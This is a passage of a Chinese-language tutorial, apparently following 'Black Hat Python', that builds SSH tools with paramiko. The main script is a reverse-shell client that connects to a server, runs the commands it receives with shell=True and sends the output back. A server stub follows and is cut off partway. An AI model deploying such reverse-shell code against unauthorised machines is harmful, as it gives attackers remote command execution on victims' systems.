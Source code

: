 ```python
    ssh_command(ip, user, passwd, command)
```

- `client = paramiko.SSHClient()` 创建一个ssh客户端对象
- `client.set_missing_host_key_policy(paramiko.AutoAddPolicy())` 自动添加和保存目标ssh服务器的ssh密钥

执行效果为：

![](https://raw.githubusercontent.com/hdfzzf/Figurebed/main/imgs/20220611204948.png)

成功执行了 id 命令。并且，如果我使用root执行 `python3 bh_sshcmd.py 10.0.2.4 m1ku m1ku id`

![](https://raw.githubusercontent.com/hdfzzf/Figurebed/main/imgs/20220611205228.png)

会发现执行 id 的结果还是 m1ku。

上面的代码是**ssh客户端连接到服务器**，接下来反过来，写一个**从服务器到客户端**的代码。
```python
import paramiko, shlex, subprocess

def ssh_command(ip, port, user, passwd, cmd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    client.connect(ip, port=port, username=user, password=passwd)

    ssh_session = client.get_transport().open_session()
    if ssh_session.active:
        ssh_session.send(cmd)
        print(ssh_session.recv(1024).decode())
        while True:
            cmd = ssh_session.recv(1024)
            try:
                cmd = cmd.decode()
                if cmd == 'exit':
                    client.close()
                    break
                cmd_output = subprocess.check_output(shlex.split(cmd), shell=True)
                ssh_session.send(cmd_output or 'okay')
            except Exception as e:
                ssh_session.send(str(e))
        client.close()
    return

if __name__ == '__main__':
    user = input('Enter username: ')
    password = input('Enter password: ')
    ip = input('Enter server IP: ')
    port = int(input('Enter port: '))
    ssh_command(ip, port, user, password, 'ClientConnected')
```

上面代码：主要是接收服务器发送来的 command，然后在客户端执行，并把结果返回给服务器。

接着，写一个 `bh_sshserver.py` 
```python
import os, paramiko, socket, sys, threading
CWD = os.path.dirname(os.path.realpath(__file__)) # 当前脚本的绝对路径
HOSTKEY = paramiko.RSAKey(filename = os.path.join(CWD, 'test_rsa.key'))

class Server(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()

    def check_channel_request(slef, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED
```